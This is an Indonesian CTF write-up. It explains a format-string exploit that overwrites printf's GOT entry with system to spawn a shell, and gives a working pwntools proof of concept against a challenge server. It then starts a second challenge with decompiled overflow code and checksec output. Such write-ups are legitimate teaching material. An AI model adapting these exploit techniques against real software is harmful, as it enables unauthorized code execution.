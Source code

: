 Challenge dari program ini sangat sederhana, dikarenakan stacknya `executable`, jadi cukup leak `stack address` dan masukan shellcode `execve("/bin/sh", 0, 0)` di stack untuk mendapatkan `Arbitrary Code Execution`. Selain menggunakan cara tersebut, kita juga bisa mengoverwrite `Global Offset Table (GOT)` dari fungsi `printf` karena mitigasi programnya hanya menggunakan `Partial Relocation Read-Only (RELRO)`, yang membuat GOT tetap writable. Langsung saja overwrite GOT entry dari fungsi `printf` dengan address `system` kemudian kirim `/bin/sh\0` sebagai byte string. Dengan demikian, ketika fungsi `printf` dipanggil, `system('/bin/sh')` akan dieksekusi, yang mengakibatkan terjadinya `Arbitrary Code Execution`.

Kita bisa memanfaatkan `Format String` vulnerability di fungsi `printf(buf)` untuk leak address dari `__libc_start_call_main+128` kemudian menghitung jarak relatif antara base address dari libc dengan address tersebut untuk mendapatkan base address libc.

#### POC
```python
#!/usr/bin/python3
from pwn import *
exe = './all'
elf = context.binary = ELF(exe, checksec = 0)
context.log_level = 'debug'
host, port = "nc all.chal.cyberjousting.com 1348".split(" ")[1:3]
io = remote(host, port)
sl = lambda a: io.sendline(a)
int16 = lambda a: int(a, 16)
rud = lambda a:io.recvuntil(a, drop=0x1)
com = lambda: io.interactive()

sl(b'%15$p')
libc_base = int16(rud(b'\n')) - 0x29d90
p = fmtstr_payload(0x6, {0x404008: (libc_base + 0x50d60 + 0x10)}, write_size='short')
sl(p)
sl(b'/bin/sh\0')
com()
```
![chall-sc](https://hackmd.io/_uploads/ryAKZeDQ0.png)

## Static
![chall-sc](https://github.com/jonscafe/jonscafe.github.io/assets/118645827/a5ae6990-14d1-47d9-b92e-9240a2785e63)

Diberikan sebuah Executable and Linkable Format (ELF) 64-bit. Langsung saja kita decompile ELFnya.
### main
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  vuln(argc, argv, envp);
  return 0;
}
```
### vuln
```c
__int64 vuln()
{
  char v1[10]; // [rsp+6h] [rbp-Ah] BYREF

  return read(0LL, v1, 256LL);
}
```
Mari kita cek mitigasi yang ada di program tersebut dengan command `checksec`.
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
```